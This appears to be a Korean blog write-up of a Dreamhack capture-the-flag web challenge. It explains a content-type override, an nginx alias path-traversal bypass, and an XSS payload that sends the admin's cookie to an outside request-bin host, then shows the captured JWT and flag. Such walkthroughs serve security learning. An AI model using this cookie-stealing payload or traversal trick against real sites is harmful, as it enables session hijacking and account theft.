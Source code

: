 ## 코드

## 풀이

게시판에 글을 올린 다음(파일 업로드) 관리자가 해당 글에 접속하게 만들어서 쿠키를 탈취하는 문제
우회해야 되는게 한두개가 아닌데, 솔직히 풀이 안봤으면 절대 못풀었다..

일단 기본적으로 xss 실행이 가능하게끔 만들기 위해 스크립트를 올려보았다.
근데 실행이 안되고 그냥 plain text로 된 파일만 보인다.
이를 우회하기 위해 서버 코드를 살펴보니 requests.args.get(content-type, text/plain)을 확인할 수 있었다.
이때 URL parameter에 content-type을 text/html로 설정하면 html 파일로 인식해서 코드를 실행시킬 수 있다.

```url
http://host1.dreamhack.games:18950/file/3ced0c04-8e57-4270-a209-ba5bee61163a/test.html?content-type=text/html
```

와 같은 방법으로 말이다.
(당연히 이 방법은 코드에서 args.get으로 파라미터를 가져오기 때문에 임의 설정이 가능한 것이다. 일반적인 우회는 안된다.)

그럼 어떤 스크립트를 올릴 것이냐가 문제인데, 역시 cookie를 가져와야 하므로 쿠키 값을 가지고 공격자 서버에 접속할 수 있도록 하는 스크립트를 올린다.
공격자 서버는 tools.dreamhack.io를 활용했다.

```js
<script>
location.href='http://cdyibyi.request.dreamhack.games/cookie?'.concat(document.cookie);
</script>
```

마지막으로 신경써야 되는 부분은, 우리가 접속하는 /file/{uuid}/test.html?content-type=text/html 주소는 쿠키를 사용하지 않는다.
서버 코드를 확인해보면 쿠키는 오직 @jwt_required()가 붙은 /user 경로에서만 사용되는 것을 볼 수 있다.
따라서 우리는 /user 주소를 활용해야 하며, 이 과정에서 nginx Path normalize 취약점을 활용할 수 있다. (이게 어려운 부분인듯)

```url
/user/..%2ffile/3ced0c04-8e57-4270-a209-ba5bee61163a/test.html?content-type=text/html
```

여기서 %2f는 / 이다.

nginx Path normalize 취약점은 nginx.conf에서 location을 지정할 때, 

```
location /i {
    alias /data/w3/images/;
}
```

와 같이 /i/가 아닌 /i와 같은 형태일때(/로 끝나지 않을 때) ../와 같은 문자열을 통해 경로 조작이 가능해지는 취약점이다.
이를 통해 /user/../file/... 와 같은 경로를 만들어낼 수 있고, Flask 입장에서는 /user 주소 이므로 쿠키를 넣어서 요청을 처리하게 된다.

이렇게 하면 다음과 같이 요청에 대한 결과가 서버로 오면서 문제 해결이 된다.

```dart

IP	139.99.121.66
Method	GET
Path	/cookie
QueryString	dream-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY0ODQ2ODY4MCwianRpIjoiMjg3ODkxMDEtMWViMi00NTRkLTg0NjktMGE3NTNmNWY1MTc1IiwibmJmIjoxNjQ4NDY4NjgwLCJ0eXBlIjoiYWNjZXNzIiwic3ViIjoxLCJleHAiOjE2NDg0Njk1ODB9.IiKoJfOQuCg8de8MrVz9Ej8ZRplcOPFool5cKtxXzoA;%20FLAG=%22DH{37fd5ca4cbd7ddc3e13db1010e9bd5629a9f3c06}%22
```
